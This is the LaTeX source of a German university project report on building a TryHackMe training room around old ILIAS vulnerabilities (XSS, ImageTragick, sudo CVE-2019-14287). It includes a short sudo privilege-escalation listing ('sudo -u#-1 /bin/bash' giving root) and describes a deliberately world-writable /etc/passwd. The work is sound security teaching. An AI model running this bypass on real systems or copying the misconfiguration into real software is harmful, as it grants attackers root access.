%Preamble
\documentclass[10pt, a4paper,onecolumn ,titlepage]{article}
%\documentclass[man,floatsintext]{apa7}

%Einbindung der Referenzen in das Dokument via BiblaTeX
\usepackage[ngerman]{babel}
\usepackage[style=german,german=quotes]{csquotes}
\usepackage[style=apa,backend=biber]{biblatex}
\DeclareLanguageMapping{american}{american-apa}
\addbibresource{main.bib}

%Packages
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{lmodern}
\usepackage{amsmath,amssymb,amstext}
\usepackage{graphicx}
\usepackage{xstring}
\usepackage{suffix}
\usepackage[nohyperlinks, printonlyused, withpage, smaller]{acronym}
\usepackage{hyperref}
\usepackage{tabularx}
\usepackage{etoolbox}
\usepackage[nooneline]{caption}
\usepackage{float}
\usepackage{pdfpages}
\usepackage{microtype}
\usepackage{booktabs}
\usepackage{abstract}
\usepackage{tablefootnote}
\usepackage{blkarray}
\usepackage{shorttoc}
\usepackage[shortlabels]{enumitem}
\usepackage{threeparttable}
\usepackage{arabicfnt}
\usepackage{tocbibind}

%Ueberschrieben des kewyowrds befehl
\providecommand{\keywords}[1]
{
    \small
    \textbf{\textit{Keywords --}} #1
}

%Zum Einfügen von Code
\usepackage{listings}
\usepackage{color}
\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\lstset{frame=tb,
    language=Bash,
    aboveskip=3mm,
    belowskip=3mm,
    showstringspaces=false,
    columns=flexible,
    basicstyle={\small\ttfamily},
    numbers=none,
    numberstyle=\tiny\color{gray},
    keywordstyle=\color{blue},
    commentstyle=\color{dkgreen},
    stringstyle=\color{mauve},
    breaklines=true,
    breakatwhitespace=true,
    tabsize=2
    numbers=left
}


%Document
\begin{document}

%Titelseite
    \begin{titlepage}
        \begin{center}

            \vspace*{1cm}

            {\large \textbf{Entwicklung eines TryHackMe Raumes}}

            \vspace{0.5cm}
            zur Sicherheitsschulung von Schwachstellen - aufgezeigt am Lernmanagementsystem ILIAS

            \vspace{1.5cm}

            \textbf{Chris Benz} \\
            \small{chbenz@stud.hs-heilbronn.de}
            \\
            \vspace{0.2cm}
            \textbf{Umut Mehmet Eke}\\
            \small{ueke@stud.hs-heilbronn.de}
            \\
            \vspace{0.2cm}
            \textbf{Lennart Kremp} \\
            \small{lkremp@stud.hs-heilbronn.de}
            \\
            \vspace{0.2cm}
            \textbf{Frederik Spieß}\\
            \small{frspiess@stud.hs-heilbronn.de}


            \vfill

            \begin{figure}[H]
                \centering
                \begin{minipage}[b]{.13\linewidth} % [b] => Ausrichtung an \caption
                    
\includegraphics[width=\linewidth]{author_pictures/chris_2}
                \end{minipage}\label{fig:chris}
                \hspace{.005\linewidth}% Abstand zwischen Bilder
                \begin{minipage}[b]{.13\linewidth} % [b] => Ausrichtung an \caption
                    \includegraphics[width=\linewidth]{author_pictures/umut}
                \end{minipage}\label{fig:umut}
                \hspace{.005\linewidth}% Abstand zwischen Bilder
                \begin{minipage}[b]{.13\linewidth} % [b] => Ausrichtung an \caption
                    
\includegraphics[width=\linewidth]{author_pictures/lennart}
                \end{minipage}\label{fig:lennart}
                \hspace{.005\linewidth}% Abstand zwischen Bilder
                \begin{minipage}[b]{.13\linewidth} % [b] => Ausrichtung an \caption
                    
\includegraphics[width=\linewidth]{author_pictures/Fred}
                \end{minipage}\label{fig:frederik}
            \end{figure}


            \vfill

            Durchführung im Rahmen der Veranstaltung \\ \glqq Praktikum sichere Software-Entwicklung\grqq\ an der Hochschule Heilbronn

            \vspace{0.2cm}

            Beaufsichtigt durch Prof. Dr.-Ing. Andreas Mayer

            \vspace{1.0cm}


            \vspace{0.8cm}

            Fakultät für Informatik\\
            Hochschule Heilbronn\\
            \today{}, Heilbronn

        \end{center}

    \end{titlepage}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%	Abstract
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

    \renewcommand*\abstractname{\flushleft\textbf{Abstract}\hfill}
    \begin{abstract}
        \hline
        \vspace{0.5cm}
        \noindent
        \textbf{Hintergrund}:  In einer immer stärker miteinander vernetzten Welt wird eines immer wichtiger, die Sicherheit und der Schutz digitaler Infrastruktur.
        Dies zeigt auch eine immer weiter zunehmenden Anzahl an Cyberangriffen, die es nötig macht, seine IT-Infrastruktur immer im Blick zu behalten und bestmöglich vor ungewollten Angriffen zu schützen.
        Geschultes IT-Personal mit fundierten Kenntnissen im Umgang mit Schwachstelle ist somit unerlässlich.

        \vspace{0.5cm}
        \noindent
        \textbf{Zielsetzung}: Das Ziel dieses Projekts ist das Erstellen eines TryHackMe Raumes, der anhand einer ansprechenden Storyline
        Wissen im Bereich IT-Sicherheit vermittelt und vorhandene Kenntnisse auf die Probe stellt.
        Es gilt demnach, geeignete Schwachstellen (in ILIAS) zu bestimmen und eine Storyline rund um diese zu entwerfen.
        Passende Technologien sind auszuwählen und die \ac{vm}, zur späteren Einbindung in den TryHackMe Raum, auszuarbeiten.
        Abschließen gilt es alle Komponenten in einem ansprechend designten TryHackMe Raum zu vereinen.


        \vspace{0.5cm}
        \noindent
        \textbf{Ergebnisse}: Insgesamt wurden zwei \ac{vm}s mit den Ilias Versionen 5.2.3 und 5.2.4 erstellt.
        Eine Storyline rund um den Studenten TimDerHackerBoy führt die Nutzer des Raumes durch die beiden Maschinen.
        Um den Raum erfolgreich abzuschließen sind unter anderem verschiedene Schwachstellen auszunutzen, drei Flags zu finden und den erfolgreichen Umgang mit verschiedenen Tools wie Hydra unter Beweis zustellen.

        \vspace{0.5cm}
        \hline
        \vspace{5cm}
        \noindent
        \keywords{Ilias, Fehlkonfiguration, ImageMagick, Privilage Escalation, XSS}

        \vspace{3cm}
        \noindent
        Für Zugang zum Git-Repository oder bei Fragen und Anregungen melden Sie sich bitte unter den angegebene Mail-Adressen der Autorenschaft.
    \end{abstract}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%	1.Inhaltsverzeichnis
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


     \shorttoc{Inhaltsübersicht}{1} %Inhaltübersicht ohne Unterpunkte
     \pagebreak
     \tableofcontents
     \vfill
     \pagebreak


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%	1.Einleitung
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
    \fill
    \newpage
    \section{Einleitung}
    \label{sec:einleitung}

    \subsection{Gegenstand und Motivation}
    \label{subsec:gegenstand-motivation}
    \footnote{In dieser Arbeit wird aus Gründen der besseren Lesbarkeit das generische Maskulinum verwendet. Weibliche und anderweitige Geschlechteridentitäten werden dabei ausdrücklich mitgemeint.}
    Die Zuverlässigkeit moderner IT-Systeme entscheidet über Erfolg oder Misserfolg vieler Firmen, Branchen oder ganzer Nationen.
    Betroffen sind aber nicht nur große Organisationen, jeder Einzelne kann zum Opfer werden mit schwerwiegenden Folgen.
    Deshalb wird eines in unserer immer stärker miteinander vernetzten Welt immer wichtiger, die Sicherheit und der Schutz digitaler Infrastruktur.
    Dies zeigt auch eine immer weiter zunehmenden Anzahl an Cyberangriffen, die es nötig macht, seine IT-Infrastruktur immer im Blick zu behalten und bestmöglich vor ungewollten Angriffen zu schützen.
    Geschultes IT-Personal mit fundiertenKenntnissen im Umgang mit Schwachstelle ist somit unerlässlich.
    Eine Möglichkeit ein solches Wissen zu erlangen, bietet die Lernplattform \href{https://tryhackme.com/}{TryHackMe}.
    Sie bietet interessierten Personen die Möglichkeit sich in Lern- und Challengeräumen umfangreiches Wissen im Bereich Ethical Hacking anzueignen.
    Und das erworbene Wissen in einer realitätsnahen, aber dennoch abgesicherten Umgebung zu testen.
    Jüngst sind auch viele Hochschulen und Universitäten Ziel von Cyberangriffen geworden, oftmals mit dem Ziel Geld zu erpressen~\parencite{hhnGehackt}.
    Eine häufig zur Kommunikation genutzte Software an Universitäten und Hochschulen ist das Lernmanagementsystem ILIAS, das in der Vergangenheit ebenfalls verschiedene Schwachstellen aufwies, die ein Einfallstor für Hacker darstellten.
    Um eine möglichst realistische Lernumgebung des zu entwickelnden TryHackMe Raumes zu schaffen, greift der zu entwickelnde TryHackMe Raum auf eben diese ILIAS Schwachstellen zurück.


    \subsection{Zielsetzung}
    \label{subsec:zielsetzung}
    Das oberste Ziel des zu TryHackMe Raumes besteht in der Wissensvermittlung bzw. dem Prüfen erworbener Kenntnisse.
    Indem wir interessierte Personen mittels einer Storyline durch einen mit realistischen und in der Vergangenheit aufgetretener Schwachstellen leiten, sollen diese ihr Können unter Beweis stellen.
    Dies soll das Verständnis für die Bedeutung der IT-Sicherheit in der heutigen digitalen Landschaft fördern und gleichzeitig zukünftige Sicherheitsexperten bestmöglich auf Bedrohungen einstellen.
    Die Geschichte handelt von einem jungen Studenten namens TimDerHackerboy, der sich im Laufe seines Kurses \glqq Grundlagen der sicheren Software-Entwicklung\grqq\ zu einer besseren Note hackt.
    Dabei begegnet er unter anderem Schwachstellen wie dem \ac{xss}, ImageTragick oder einer Fehlkonfiguration, die bei geschicktem Ausnutzen eine Privilege Escalation zulässt.
    Es gilt demnach, geeignete Schwachstellen zu bestimmen und diese in die Storyline rund um TimDenHackerboy einzuarbeiten.
    Passende Technologien sind auszuwählen und die \ac{vm}en, zur späteren Einbindung in den TryHackMe Raum, auszuarbeiten.
    Abschließend gilt es, alle Komponenten in einem ansprechend designten TryHackMe Raum zu vereinen.




%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%	2.Grundlagen
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
    \fill
    \newpage
    \section{Grundlagen}
    \label{sec:grundlagen}

    \subsection{ILIAS}
    \label{subsec:ilias}
    Die Abkürzung ILIAS beschreibt ein \ac{ilias} .
    Bei der Software handelt es sich nicht um eine Lernplattform, sondern um ein System mit dem sich eine solche betreiben lässt.
    Die Software fällt unter die Kategorie Open-Source und ist somit für jedermann zugänglich und wird seit dem Jahre 2000, aufgrund großen Interesses, unter der GNU General Public Licence veröffentlicht.
    Mittlerweile erscheint \ac{ilias} in der achten Version und ermöglicht Lehrenden und Lernenden eine möglichst unkomplizierte Kommunikation.
    \ac{ilias} ist wie eine Bibliothek zu verstehen, die es ermöglicht Wissen in Kursen möglichst einfach bereitzustellen und zu managen.
    Mittlerweile wurde diese Kernkompetenz zudem durch Module zur Kommunikation oder auch dem Durchführen von Onlineprüfungen ergänzt.
    Nutzer sind mittlerweile nicht nur Hochschulen und Universitäten, sondern auch Akademien, die NATO und die Bayerische Polizei~\parencite{ilias}.

    \subsection{Cross-Site-Scripting}
    \label{subsec:CrossSiteScripting}
    Bei \ac{xss} handelt es sich um eine weit verbreitete Schwachstelle, die zudem von der \ac{owasp} geführt wird.
    XSS-Angriffe sind eine Art von Injektion, bei der bösartige Skripte in ansonsten gutartige und vertrauenswürdige Websites eingeschleust werden.
    XSS-Angriffe treten auf, wenn ein Angreifer eine Webanwendung nutzt, um bösartigen Code, in der Regel in Form eines browserseitigen Skripts, an einen anderen Endbenutzer zu senden~\parencite{xss}.
    Eine Ursache für das Auftreten von XSS-Schwachstellen ist das Vertrauen in den Nutzer oder schlichtweg eine nicht vorhandene Validierung der Nutzereingaben.
    Angreifer mit unethischen Absichten erhalten so einen Weg, der es ihnen erlaubt, schädliche Skripte auszuführen und so vertrauliche Informationen zu erlangen.
    Je nach Schwachstelle kann es sich dabei beispielsweise um Session-Cookies oder Zugangsdaten handeln.
    Zudem findet eine Einteilung in zwei Arten von XSS-Angriffen statt:
    \\
    (1) \textbf{Reflected \ac{xss} Attacken} beschreiben eine Attacke, bei der das \ac{xss} Skript vom Webserver reflektiert wird.
    Dies kann unter anderem in Form einer Fehlermeldung oder Suchergebnissen der Fall sein.
    \\
    (2) \textbf{Stored \ac{xss} Attacken} hingegen beschreiben eine Attacke, bei der das \ac{xss} Skript eingeschleust und anschließend auf dem verwundbaren Zielserver gespeichert wird.
    Dies ermöglicht ein Ausführen des schädliche \ac{xss} Skripts, nach jedem Aufruf des Zielservers durch unbedarfte Nutzer.
    Beliebte Beispiele zum Platzieren eines solchen \ac{xss} Skripts sind Forenbeiträge, Kommentare oder Datenbankeinträge.


    \subsubsection{CVE-2018-5688}
    \label{subsubsec:CVE-2018-5688}
    Die Schwachstelle \href{https://www.cve.org/CVERecord?id=CVE-2018-5688}{CVE-2018-5688} tritt in ILIAS Versionen vor 5.2.4 auf.
    Durch Ausnutzung dieser Schwachstelle kann schädlicher \ac{xss} Skriptcode eingeschleust und ausgeführt werden, was potenziell zu Sicherheitsproblemen führen kann.
    Diese Schwachstelle betrifft den cmd-Parameter der displayHeader-Funktion womit .php Dateien in der Setup-Komponente der Ilias-Software ausgelesen werden können~\parencite{xssExploitDb}.
    Zum Ausnutzen der Schwachstelle muss ein Angreifer nicht eingeloggt sein.
    Mit einer CVSS Bewertung von 4.3 ist die Schwachstelle nicht als extrem gefährlich eingestuft, was daran liegt, dass die möglichen Auswirkungen auf das System moderat sind~\parencite{xssCVEDetails}.

    \subsection{ImageMagick}
    \label{subsec:ImageMagick}
    \href{https://imagemagick.org}{ImageMagick} ist eine weitverbreitete Open-Source-Software zur Anzeige, Konvertierung und Bearbeitung von Bilddateien.
    Es wird ein command-line Interface, sowie APIs für die Integration in eigene Softwareprojekte bereitgestellt.
    Die Software bietet dabei einen großen Umfang an Funktionen und unterstützt eine Vielzahl an gängigen Dateiformaten, weshalb sie eine große Nutzerschaft in Bereichen wie der Webentwicklung, wissenschaftlichen Forschung, medizinischen Bildgebung und vielen weiteren aufweisen kann.
    Eine der wichtigsten Funktionen, die ImageMagick zu bieten hat, ist das Verarbeiten von Skripten und die Möglichkeit zur Automatisierung.
    Immer gleiche Abläufe für eine Großzahl an Bildern können so vereinfacht werden, weshalb die Software auch in ILIAS eingesetzt wird~\parencite{imagemagick}.


    \subsubsection{CVE-2016-3714 (ImageTragick)}
    \label{subsubsec:CVE-2016-3714}
    Die Schwachstelle \href{https://www.cvedetails.com/cve/CVE-2016-3714/}{CVE-2016-3714}, auch \glqq ImageTragick\grqq\ genannt, tritt in den Versionen 6.9.3-10 und 7.x vor 7.0.1-1 von ImageMagick auf.
    Die Sicherheitslücke ist im Jahre 2016 erstmal entdeckt worden und betrifft die Verarbeitung von Bilddateien mit der ImageMagick Software-Bibliothek.
    Durch \glqq ImageTragick\grqq\ ist es möglich, Schadcode in Form einer Bilddatei in ein System einzuschleusen und anschließend serverseitig auszuführen.
    Da es sich bei ImageMagick um eine Software-Bibliothek handelt, die wie in~\ref{subsec:ImageMagick} bereits erwähnt eine große Nutzerzahl aufweist, war die Schwachstelle zum Zeitpunkt ihrer Entdeckung durch die Sicherheitsfirma Check Point in einer Vielzahl von Softwareprodukten zu finden~\parencite{imageTragicReport}.
    ILIAS verwendet ImageMagic zur Verarbeitung der Profilbilder ihrer Nutzer, weshalb auch ILIAS je nach verwendeter ImageMagick Version von der Sicherheitslücke betroffen war.

    \subsection{Privilege Escalation}
    \label{subsec:PrivilegeEscalation}
    Von Privilege Escalation, zu Deutsch Rechteausweitung, spricht man immer dann, wenn ein vermeintlicher User durch Ausnutzen einer Sicherheitslücke zu mehr Rechten kommt als eigentlich für diesen vorgesehen.
    Ziel ist es, Zugriff auf Ressourcen oder Bereiche eines Systems zu erhalten, zu denen normalerweise kein Zugang besteht.
    Eine solche Schwachstelle stellt ein ernstes Sicherheitsrisiko dar, da sie einem Angreifer im schlimmsten Falle umfangreiche Kontrolle über das System ermöglicht.
    Grundsätzliche sind zwei Arten der Privilege Escalation zu unterscheiden:
    \\
    (1) Von einer \textbf{horizontalen Privilege Escalation} ist immer dann die Rede, wenn sich ein Nutzer Zugang zu einer gleichwertigen Sicherheitsebene eines anderen Nutzers verschafft.
    \\
    (2) Von einer \textbf{vertikalen Privilege Escalation} hingegen ist immer dann die Rede, wenn ein Nutzer sich Zugang zu einer höheren Sicherheitsebene als der ihm zugewiesenen verschafft\parencite{privilegeEscalationArten}.
    Die Ursachen für Privilege Escalation können vielfältiger Natur sein, oftmals sind sie jedoch auf technische Schwachstellen oder menschliches Fehlverhalten zurückzuführen, wie ein bereits bestehender \href{https://tryhackme.com/room/linprivesc}{TryHackMe Raum} zeigt.
    Gegenmaßnahmen liegen in der Hand der Administratoren eines Systems, sie sollten auf die Einhaltung gängiger Sicherheitspraktiken, dem Einspielen aktueller Updates, einer starken Zugriffskontrolle sowie einer gut kontrollierten Berechtigungsverwaltung achten.


    \subsubsection{CVE-2019-14287 (Sudo)}
    \label{subsubsec:sudo}
    Bei Sudo handelt es sich um ein Kommandozeilenprogramm für Unix Systeme, wie auch das von uns eingesetzte Betriebssystem Linux.
    Es bietet die Möglichkeit Benutzern gewisse Rechte zuzuordnen.
    Diese sind somit in der Lage, Befehle auszuführen, für die es normalerweise die erhöhten Rechte eines anderen Nutzer notwendig sind.
    Die Schwachstelle \href{https://www.cvedetails.com/cve/CVE-2019-14287/?q=CVE-2019-14287}{CVE-2019-14287} tritt in Sudo Versionen vor 1.28 auf.
    Sudo wird dazu mit der manipulierten Nutzer-ID -1 oder 4294967295 wie folgt aufgerufen: sudo -u\#-1 /bin/bash.
    Da durch Sudo keine Prüfung auf Gültigkeit der ID stattfindet, wird der Befehl unter einer beliebigen ID mit sudo Privilegien ausgeführt.
    Dabei wird die Nutzer-ID null zurückgegeben, die der root Nutzer-ID entspricht.
    Einem Angreifer ist es bei einer bestimmten sudoers Konfiguration (die den root Zugriff ausführlich verbietet) möglich, Befehle mit root Rechten auszuführen wie ein Exploit von \textcite{privilegeEscalationSudoExploit} zeigt:
    \vspace{0.5cm}
    \begin{lstlisting}[label={lst:examplesudo}]
        #User hacker sudo privilege in /etc/sudoers
        #User privilege specification
        root   ALL=(ALL:ALL) ALL
        hacker ALL=(ALL,!root) /bin/bash
        #Example
        hacker@kali:~$ sudo -u#-1 /bin/bash
        root@kali:/home/hacker# id
        uid=0(root) gid=1000(hacker) groups=1000(hacker)
    \end{lstlisting}
    \vspace{0.5}
    Mit einer CVSS Bewertung von 9.0 ist sie als besonders gefährlich eingestuft~\parencite{privilegeEscalationSudo}.
    Ein Ausnutzen der Schwachstelle durch einen Angreifer kann fatale Auswirkungen auf das betroffene System haben.



    \subsubsection{Fehlkonfiguration (/etc/pssswd)}
    \label{subsubsec:fehlkonfiguration}
    Die /etc/passwd Datei in Linux Systeme ist als eine Art Nutzerdatenbank zu verstehen.
    Sie enthält Informationen zu den Systemnutzern, dazu gehören Nutzer-ID, Gruppen-ID, Shell-Zuordnung und früher ebenso Passwörter.
    Bei der Datei handelt es sich meistens um eine .txt Datei, die immer für alle Nutzer lesbar ist~\parencite{privilegeEscalationPasswd}.
    In der \ac{vm}2 werden die Zugriffsrechte für die /etc/passwd Datei unter Verwendung des Befehls chmod 777 geändert.
    Der chmod Befehl wird in Linux dazu verwendet, die Zugriffsrechte auf Dateien und Verzeichnisse zu ändern.
    Die hinterlegten Zugriffsrechte für die passwd Datei sehen nunmehr wie folgt aus: rwxrwxrwx.
    Dementsprechend ist es jedem Nutzer des Systems gestatte, die Datei zu lesen/read, schreiben/write und auszuführen/execute~\parencite{privilegeEscalationFehlkRechte}.
    Eine solche Fehlkonfiguration führt zu schwerwiegenden Sicherheitsproblemen für das System.
    Angreifer sind so in der Lage auf Nutzerinformationen zuzugreifen, sich eigene Nutzer mit root Rechten anzulegen und so selber root zu werden.
    Eine solche Fehlkonfiguration sollte unter allen Umständen vermieden werden und dient in der \ac{vm}2 lediglich der Veranschaulichung welche Folgen eine solche für ein System haben kann.








%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%	3. Technologien / Methoden und Werkzeuge
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
    \fill
    \newpage

    \section{Technologien}
    \label{sec:technologien}

    \begin{figure}[H]
        \centering
        
\includegraphics[width=1\textwidth]{other_pictures/Technologien}
        \caption{Grafische Übersicht der genutzten Technologien}
        \label{fig:technologien_ueberblick}
    \end{figure}

    \subsection{Docker}
    \label{subsec:docker}
    Docker ist eine Open-Source-Plattform, die es Entwicklern ermöglicht, Anwendungen in Containern zu erstellen, zu verpacken und auszuführen.
    Container sind eigenständige und isolierte Einheiten, die alle erforderlichen Abhängigkeiten enthalten, um Anwendungen auf verschiedenen Systemen konsistent auszuführen.\parencite{docker}
    Theoretisch stellt der User \glqq sturai\grqq\ ein ILIAS-Image über Docker Hub bereit (\href{https://hub.docker.com/r/sturai/ilias#!}{s. hier}).
    Jedoch konnten diese nicht genutzt werden, da die angebotenen Versionen die angedachten Schwachstellen nicht mehr unterstützen beziehungsweise diese darin bereits behoben sind.
    Die einzige Möglichkeit war somit ein eigenes Docker Image zu erstellen. Als Basis hierfür wurde dennoch das Image von \glqq sturai\grqq\ genutzt.
    Um nun die Dependencies korrekt anzupassen, wurde auf der \href{https://docu.ilias.de/goto_docu_lm_367.html}{ILIAS-Supportpage} die Requirementstabelle angeschaut und die Dependencies, wie dort genannt, konfiguriert.
    Damit ILIAS korrekt gebuildet werden kann, wird jedoch noch eine Install- und eine Entrypoint-Datei~\parencite{dockerEntrypoints} benötigt.
    Auch hier wurden als Basis die Dateien von \glqq sturai\grqq\ genutzt und so überarbeitet, dass unsere ILIAS-Version unterstützt wird.
    Zu guter Letzt musste noch die docker-compose.yml angepasst werden, sodass unsere lokalen Dateien und Images genutzt werden, um die Container zu erstellen.

    \subsection{VM mit einem Ubuntu Betriebssystem}
    \label{subsec:ubuntu}
    Um die virtuelle Maschine zu erstellen, die auf TryHackMe hochgeladen werden kann, wurde Virtual Box genutzt.
    \href{https://www.virtualbox.org/}{VirtualBox} ist eine kostenlose und plattformübergreifende Virtualisierungssoftware.
    Sie ermöglicht das Ausführen verschiedener Betriebssysteme innerhalb virtueller Maschinen auf einem physischen Computer.
    Mit umfangreichen Konfigurationsoptionen, Snapshot-Funktionen und Netzwerkunterstützung ist VirtualBox eine beliebte Wahl für Entwickler und IT-Profis, um Software zu testen, Entwicklungsumgebungen zu erstellen und Betriebssysteme zu isolieren.
